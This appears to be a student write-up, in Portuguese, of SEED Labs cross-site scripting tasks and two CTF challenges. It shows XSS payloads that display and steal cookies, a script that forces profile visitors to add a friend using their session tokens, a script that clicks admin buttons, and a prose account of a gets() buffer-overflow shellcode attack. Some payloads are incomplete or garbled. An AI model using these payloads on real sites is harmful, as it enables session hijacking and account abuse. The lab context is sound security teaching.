





# SEED-LABS

## Task 1: Posting a Malicious Message to Display an Alert Window

* Esta tarefa foi bastante simples, apenas entramos na aplicação web com as credenciais da Alica, que foram providenciadas anteriormente, e colocamos no campo *short description* o código html: ``<script>alert(’XSS’);</script>``.

Print do ecrã depois de alterado o perfil da Alice:


## Task 2: Posting a Malicious Message to Display Cookies

* Esta tarefa é bastante parecida com a anterior. Era pedido para dar display das *cookies* do utilizador no ecrã, assim, alteramos o código do script anterior para ``<script>alert(document.cookie);</script>``

Print do ecrã depois de alterado o perfil da Alice:


## Task 3: Stealing Cookies from the Victim’s Machine

* Nesta tarefa era pedido para roubar as *cookies* do utilizador, isto é, a tarefa anterior só dava display das *cookies* a este, agora queremos que elas sejam enviadas para nós, o atacante.
* Com este objetivo em mente era necessário que o código fizesse um **request** ao atacante, isto é possível se tentarmos inserir uma imagem através do código (com recurso à tag &lt;img&gt;) que tente aceder a um url na máquina do atacante.
* Assim, alteramos o código inserido para:``<script>document.write(’’); </script>`` para a aplicação web ao lançar o request http guarde as *cookies* do utilizador na nossa máquina.

Print do ecrã com o terminal depois de alterado o perfil da Alice:


## Task 4: Becoming the Victim’s Friend

* Nesta tarefa era pedido para alterarmos um script js que fizesse qualquer pessoa que abrisse o nosso perfil se tornasse automáricamente amiga do *Sammy*.

Código disponibilizado:


* Depois de analizado o código entendemos que a maior parte do trabalho já estava feita e só precisavamos de alterar a variável ``sendurl``.
* Para sabermos o url a enviar à aplicação utilizamos uma extensão do firefox previamente instalada: ***HTTP Header***. 
* Entramos com um utilizador diferente e adicionamos o *Sammy* aos amigos, fizemos o mesmo para outro utilizador. Apontamos os urls e, depois de um pouco de analise e comparação, reparamos que os urls seguiam a mesma convenção, isto é: ``"http://ctf-fsi.fe.up.pt:5002/request/8ffc1002dc5090e4be777b8dc6f11725948b0955/mark_as_read " + ts + "&__elgg_token=" + token + " &__elgg_ts=" + ts + "&__elgg_token=" + token;``
* Depois de entendido isto, foi simples a criação do url a enviar.
Código enviado:
````html
<script type="text/javascript">

window.onload = function () {

var Ajax=null;

var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;

var token="&__elgg_token="+elgg.security.token.__elgg_token;

var sendurl= "http://ctf-fsi.fe.up.pt:5002/request/8ffc1002dc5090e4be777b8dc6f11725948b0955/mark_as_read " + ts + "&__elgg_token=" + token + " &__elgg_ts=" + ts + "&__elgg_token=" + token; 

Ajax=new XMLHttpRequest();

Ajax.open("GET", sendurl, true);

Ajax.send();

}

</script>


````

### Question 1: Explain the purpose of Lines ➀ and ➁, why are they are needed?

As linhas ➀ e ➁ são necessárias para saber os tokens privados do utilizador que abriu o perfil do *Sammy*, algo que só este deve ter acesso e é necessário para fazer um pedido de amizada à aplicação em nome dele.

### Question 2: If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?

Não, não é possível lançar um ataque ao introduzir o código descrito anteriormente.


# CTF

## Desafio 1: 

Ao fazer o primeiro pedido no site, já com um script de um popup, percebemos que apareciam os botoes do Admistrador, além de que o form nao possuia filtros, posiblitando XSS. Dessa maneira, ficou claro que deveriamos ablitar os botoes do Admistrador de forma a ter o pedido pela flag "aceito".

Nossa primeira tentativa foi: 
````
<script> 
    document.getElementById("giveflag").disable = false;
    document.getElementById("markAsRead").disable = false; 
</script>
````
Contudo, ao clicar nos botoes aparecia-nos o erro 403, forbbiden. Ou seja, deveriamos criar um exploit que ao admistrador  abrir a página com o nosso pedido os botoes seriam "clicados". 
Assim sendo, este foi o exploit utilizado:
````
<script> 
    document.getElementById("markAsRead").click();
    document.getElementById("giveflag").click(); 
</script>
````

## Desafio 2:

* Depois de analizado o codigo fonte reparamos numa grande vulnerabildade, isto é, o programa dava output do endereço da variavel buffer e pedia um input de seguida guardando-o nesta mesma atraves da função ```gets()``.
* Assim pudemos fazer um programa em python que recebe o endereço do buffer e corre um shell code - shell code injection - e abrir um terminal no servidor para correr os comandos que quisermos, como por exemplo ``cat flag.txt`` para buscar o valor da flag resposta.



